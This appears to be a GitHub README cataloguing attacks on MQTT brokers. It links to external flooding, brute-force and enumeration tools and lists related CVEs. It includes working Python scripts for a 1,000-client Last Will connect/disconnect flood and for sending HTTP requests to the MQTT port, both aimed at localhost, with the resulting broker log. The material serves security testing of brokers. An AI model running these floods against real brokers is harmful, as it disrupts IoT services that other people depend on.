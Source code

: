 # MQTT Attacks

## SlowITe and Unauthorized Sub/Pub Flooding
https://github.com/gianluca2414/MQTT_SlowITe

## SlowTT
https://github.com/GenjiM1n4moto/SlowTT-Attack

## Connect Flooding
https://github.com/gianluca2414/MQTT_SlowITe

## Last Will Payload

The attack mechanism simulates a test condition for the broker to handle connections and Last Will messages from a large number of clients rapidly connecting and disconnecting. 

### Requirements
+ This attack is simulated using `Python 3.11.8`.
+ In the attack, three libraries are imported
    * `paho.mqtt.client`: This library is essential for MQTT communication, enabling the creation and management of MQTT client connections, publishing messages, and subscribing to topics. To install this module click [hier](https://eclipse.dev/paho/index.php?page=clients/python/index.php).
    * `time`: This standard Python library is used for its sleep function, which introduces delays in this case, 0.1 seconds between client connections and disconnections, effectively simulating rapid client turnover and testing the broker's handling of last will messages.
    * `random`: The library is also imported but not used in the given code snippet
### Exploit    
```python
import random
import paho.mqtt.client as mqtt
import time

def connect_client(client_id, will_topic, broker_address="127.0.0.1"):
    client = mqtt.Client(client_id)
    client.will_set(will_topic, payload="Last Will Message", qos=1, retain=False)
    client.connect(broker_address, 1883, 60)
    return client

def main():
    broker_address = "127.0.0.1"
    will_topic = "test/lastwill"

    clients = []
    try:
        for i in range(1000):  # range for the flooding effect
            client_id = f"Client_{i}"
            client = connect_client(client_id, will_topic, broker_address)
            clients.append(client)
            time.sleep(0.1)
            client.disconnect() # disconnect after 0.1 connecting to trigger the Last Will message
    finally:
        for client in clients:
            client.loop_stop()

if __name__ == '__main__':
    main()
```
### Functionality
The function `connect_client()` takes the parameters `client_id`, `will_topic`, and `broker_address`. It creates an MQTT client with a unique ID and sets up a last will message on `will_topic`, In the `will_set` method, the `qos` parameter is set to `1`. This ensures that messages are delivered at least once and the `retain` flag is set to `False`,means the broker does not retain the message. Finally, it connects to the broker at the loopback address using the default MQTT port. Iterates to create 1000 clients. Each client is connected and then quickly disconnected after a 0.1-second pause, triggering the broker to send the last will message.

## ACK-PSH Flooding
https://github.com/uiucseclab/460FinalDDoSAttacks

## Non-MQTT Protocol Based Requests

## HTTP Requests Misinterpreted
```python
import socket

broker_address = "127.0.0.1"
broker_port = 1883

def send_http_request_as_mqtt(broker_address, broker_port):
    # socket
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((broker_address, broker_port))

    # HTTP request
    http_request = "GET / HTTP/1.1\r\nHost: {}\r\n\r\n".format(broker_address)
    
    try:
        # sending HTTP request to MQTT port
        sock.sendall(http_request.encode())
        response = sock.recv(1024)  # Receiving the response from the server
        print("Received:", response.decode())
    finally:
        sock.close()

send_http_request_as_mqtt(broker_address, broker_port)
```

```bash
1713516729: New connection from 127.0.0.1:50058 on port 1883.
1713516729: Client <unknown> disconnected due to protocol error.
```
## UDP MQTT Requests

## Cross-Topic Type Requests

## Payload Remaining Length
MQTT Payload Remaining Length (CVE-2018-17614)

## Unicode Handling in Topic Strings
MQTT Unicode Handling in Topic Strings (CVE-2017-7653)

## URI-Style Topic Validation
MQTT URI-Style Topic Validation (CVE-2018-11615)

## Brute-Force
https://github.com/stfbk/mqttsa?tab=readme-ov-file

## Topic enumeration
https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto

## Elevation of Privilege (EoP)
https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto

## OpenSSL Infinite Loop
Openssl infinite loop DoS vulnerability, CVE-2022-0778

## Note
Loopback IP